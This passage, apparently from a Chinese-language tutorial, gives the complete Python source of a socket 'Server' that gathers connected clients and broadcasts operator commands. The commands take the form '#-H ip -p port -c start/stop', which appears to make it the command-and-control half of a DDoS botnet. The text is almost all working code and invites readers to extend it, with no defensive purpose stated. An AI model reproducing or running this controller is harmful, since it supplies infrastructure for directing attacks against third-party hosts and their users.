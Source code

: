 ```
#发送命令
def sendCmd(cmd):
    print(&#39;Send command......&#39;)
    for sock in socketList:
        sock.send(cmd.encode(&#39;utf-8&#39;))
```
至此我们的`Server端`就完成了，是不是很简单！当然我们只是实现了基本功能，还有很多可以扩展，这个就留给同学们发挥了，举一反三进步才会快！

我们来看一下`Server端`的完整代码：

```
import socket
import argparse
from threading import Thread

socketList = []
#命令格式&#39;#-H xxx.xxx.xxx.xxx -p xxxx -c &lt;start|stop&gt;&#39;
#发送命令
def sendCmd(cmd):
    print(&#39;Send command......&#39;)
    for sock in socketList:
        sock.send(cmd.encode(&#39;utf-8&#39;))

#等待连接
def waitConnect(s):
    while True:
        sock,addr = s.accept()
        if sock not in socketList:
            socketList.append(sock)

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((&#39;0.0.0.0&#39;, 58868))
    s.listen(1024)
    t = Thread(target=waitConnect,args=(s,))
    t.start()

    print(&#39;Wait at least a client connection!&#39;)
    while not len(socketList):
        pass
    print(&#39;It has been a client connection!&#39;)

    while True:
        print(&#39;=&#39; * 50)
        print(&#39;The command format:&#34;#-H xxx.xxx.xxx.xxx -p xxxx -c &lt;start&gt;&#34;&#39;)
        #等待输入命令
        cmd_str = input(&#39;Please input cmd:&#39;)
        if len(cmd_str):
            if cmd_str[0] == &#39;#&#39;:
                sendCmd(cmd_str)
if __name__ == &#39;__main__&#39;:
    main()

```
